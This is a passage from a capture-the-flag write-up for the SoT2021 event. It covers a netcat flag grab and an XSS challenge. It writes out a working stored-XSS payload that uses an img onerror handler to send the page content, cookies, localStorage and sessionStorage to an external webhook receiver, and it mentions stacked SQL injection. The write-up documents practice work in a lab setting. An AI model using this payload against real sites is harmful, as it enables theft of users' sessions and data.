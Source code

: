 The first two aren't that interesting, as they're just HTTP and HTTPS, but port 27805 is unusual. I connect to it using netcat and get the following output:

```
$ nc aura-tickets.sot2021.aurahacks.co.nz 27805
SoT2021_Flag{e5dc81423c8d699ea7c42ccdae29e3ed}
```

And that's a flag.

# Flag 11: XSS

Flag 11 is called `XSS` so I figure it's almost certainly related to XSS. While testing I've found multiple sections vulnerable to XSS, namely messages section, and the patch notes (from [Flag 7](#flag-7-patches)).

I initially try sending a message with a test payload `<script>alert(1)</script>`, which doesn't display in the message indicating it's being interpreted as HTML, however it doesn't actually execute the JavaScript so no alert box is created. I try again using an HTML event this time `<img src=a onerror=alert(1)>`, which works this time.

I want to create a payload for grabbing a bunch of content from a page from a victim, so I use the following JavaScript using the Fetch API to return the page data, any cookies, any localStorage, and any sessionStorage:

```javascript
fetch('url', {method: 'POST', body: JSON.stringify({body: document.querySelector('html').innerHTML, cookies: document.cookie, localStorage: localStorage, sessionStorage: sessionStorage})})
```

Next I need somewhere to send it to, I look online for a site that'll act as a receiver for me, and find one called [Webhook.site](https://webhook.site/) and decide to try it out.

My payload now looks like this:
```html
<img src=a onerror=\"fetch('https://webhook.site/40087892-8170-42d4-bb36-96dabfa7d342', {method: 'POST', body: JSON.stringify({body: document.querySelector('html').innerHTML, cookies: document.cookie, localStorage: localStorage, sessionStorage: sessionStorage})})\">
```

I submit my payload as a message and change page so as to not pollute the receiver too much. After a while of not getting any hits, I decide to try the same payload in the patch notes. At this stage I have two ways of adding to patch notes: I can either use a stacked query in an SQL injection to inject something into the table, or I can use my powers as an admin to add a patchnote from the `Admin Tools` section.

![](./images/admin_tools.png)
